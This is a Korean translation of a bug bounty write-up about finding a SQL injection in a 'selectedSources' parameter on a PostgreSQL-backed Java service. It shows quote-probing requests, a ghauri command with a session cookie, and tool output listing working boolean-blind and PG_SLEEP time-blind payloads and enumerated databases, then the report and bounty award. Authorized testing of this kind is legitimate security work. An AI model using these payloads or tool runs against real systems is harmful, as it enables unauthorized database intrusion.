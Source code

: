 ```yaml
---
title: "첫 번째 유로 보상을 받은 방법"
description: ""
coverImage: "/assets/img/2024-06-19-HowIGotMyFirstBounty_0.png"
date: 2024-06-19 21:16
ogImage: 
  url: /assets/img/2024-06-19-HowIGotMyFirstBounty_0.png
tag: Tech
originalTitle: "How I Got My First €€€€ Bounty"
link: "https://medium.com/@machiavellli/how-i-got-my-first-bounty-65ad8a1763de"
isUpdated: true
---
```






안녕하세요!

이 글에서는 어떻게 첫 번째 €€€€ 현상금을 발견했는지에 대해 공유하겠습니다.

처음에는 프로그램 범위가 다양한 서비스와 관련된 URL 집합이었기 때문에 기본 수동 현지 조사로 시작했습니다. 예를 들어:

- https://ex.admin.service.example.com/

<div class="content-ad"></div>

https://ex.service.service.example.com/

https://ex.abc.service.example.com/

또한, 프로그램은 역할을 테스트하기 위한 자격 증명을 제공했습니다.

그런 다음 Burp를 통해 트래픽을 프록시하여 일반 사용자처럼 정렬기능을 제외한 다른 기능을 테스트하면서 사이트를 찾아보았지만, 흥미로운 기능은 없었습니다. 어떤 JS 파일에서 이미 본 흥미로운 매개변수들이 있었다는 것을 알게 되었습니다.

<div class="content-ad"></div>

“SelectedSources, SelectedTemplateNames” 처음에는 아마도 데이터베이스에서 일부 데이터를 가져오는 것인줄 알았어요. 그래서 '“, ‘, \', 와 같은 특수 문자를 입력하여 ' 이상을 찾는 테스트를 해보기로 결정했어요. 하나의 따옴표를 입력하자 500 HTTP 상태 코드(내부 서버 오류)를 받았고, 또 다른 따옴표를 더 추가하니 200 HTTP 상태 코드(정상)를 받았어요.

```js
https://ex.service.example.com/history?selectedSources=someSources' > 500
```

```js
https://ex.service.example.com/history?selectedSources=someSources'' > 200
```

가끔은 역슬래시를 입력하여 확인하기도 해요. 그런데 여기서는 400 안 좋은 요청(Java 앱이었어요)을 받았어요.

<div class="content-ad"></div>

```js
그 후에는 데이터베이스 버전을 추출하기 위해 sqlmap을 실행해 보았지만, 불행히도 sqlmap은 PostgreSQL이 DBMS임을 제외하고는 아무것도 추출하지 못했습니다. 그러나 포기하지 않고 대신 ghauri(https://github.com/r0oth3x49/ghauri.git)를 사용해 보았어요!

ghauri -u "https://ex.service.example.com/history?selectedSources=someSources" --dbms=postgres --cookie="JSESSIONID=09326D266052B6B0F7E391B7BBD3A284" --dbs

Boom! 🚀
```

<div class="content-ad"></div>

```js
[09:22:32] [INFO] 대상 URL에 대한 연결 테스트 중
Ghauri는 저장된 세션에서 다음 인젝션 지점을 재개했습니다:
매개변수: selectedSources (GET)
    유형: 블라인드 기반 boolean
    제목: OR 블라인드 기반 - WHERE 또는 HAVING 절
    페이로드: selectedSources=someSources') OR 06690=6690 OR ('04586'='4586
    
    유형: 블라인드 기반 시간
    제목: PostgreSQL > 8.1 및 시간 기반 블라인드 (주석)
    페이로드: selectedSources=someSources') AND 4564=(SELECT 4564 FROM PG_SLEEP(6)) OR ('04586'='4586
    
[09:22:33] [INFO] PostgreSQL 테스트 중
[09:22:34] [INFO] PostgreSQL 확인 중
[09:22:34] [INFO] 백엔드 DBMS는 PostgreSQL입니다
[09:22:34] [INFO] 데이터베이스 이름 검색 중
[09:22:34] [INFO] 데이터베이스 수 검색 중
[09:22:51] [INFO] 검색된 결과: 3
[09:26:01] [INFO] 검색된 결과: information_schema
[09:27:51] [INFO] 검색된 결과: pg_catalog
[09:28:57] [INFO] 검색된 결과: public
사용 가능한 데이터베이스 [3]:
[*] pg_catalog
[*] public
[*] information_schema
```

제보했고, 딱 한 시간 만에 트리저가 보고서를 회사에 전달했고, 그들은 취약점을 인정했습니다.

<img src="/assets/img/2024-06-19-HowIGotMyFirstBounty_0.png" />

다음 날, 회사에서 바운티를 수여했습니다.

<div class="content-ad"></div>


![이미지](/assets/img/2024-06-19-HowIGotMyFirstBounty_1.png)

마지막으로, 이해하지 못하는 도구, 기술 또는 프로그램에만 집착하지 마세요. 그렇게 하면 탈진하게 될 거예요. 이미 인터넷은 취약점으로 가득 찬 곳이니까요.

Twitter/X: https://x.com/MachIaVellill

سَلامٌ
